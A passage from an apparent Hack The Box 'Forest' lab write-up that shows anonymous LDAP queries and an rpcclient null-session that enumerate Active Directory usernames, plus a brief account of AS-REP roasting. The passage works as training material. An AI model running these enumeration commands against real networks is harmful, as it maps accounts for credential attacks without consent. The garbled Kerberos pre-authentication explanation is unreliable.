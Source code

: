 The FQDN for the domain shows the forest.htb.local domain. We'll add these additions to our host file to ensure we can perform accurate enumeration. 
`10.10.10.161    htb.local FOREST.htb.local`

I'll start by enumerating the LDAP services as that seems to be the best starting point.
Running the below ldapsearch command produces a slew of information (and confirms that unauthenticated searches are enabled):
`└─$ ldapsearch -x -H ldap://htb.local -b '' >> ldapsearch.txt`

We can extract the logon usernames out of this search result using:
`└─$ ldapsearch -x -H ldap://htb.local -b "dc=htb,dc=local" -s sub "(&(objectclass=user))" sAMAccountName | grep sAMAccountName: | awk -F': ' '{print $2}' >> usernames.txt`


Next We'll use a tool like Rubeus to see if AS-REP Roasting is possible.

AS-REP Roasting is a methodology to scan for user hashes that have Kerberos pre-authenitcation disabled.  
Kerberos pre-auth is a Windows security mechanism that protects against password-guessing attacks. 
It works by responding to an asynchronous server request with a timestamp enabled with the users password hash.
The Keey Distribution Center then validates this hash by confirming the timestamp.

If Pre-authentication is disabled, then the AS-REQ will be directly responded to with the users password hash.
For more information, see the [LDAP WiKi](https://ldapwiki.com/wiki/Wiki.jsp?page=Kerberos%20Pre-Authentication).

*I ran into a dead end here. I back tracked and looked into RPC, used this route to get a list of users*
We'll use `rpcclient` to enumerate users as it seems there's info missing from what I was able to get out of the LDAP records/
```bash
└─$ rpcclient -U "" -N 10.10.10.161
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```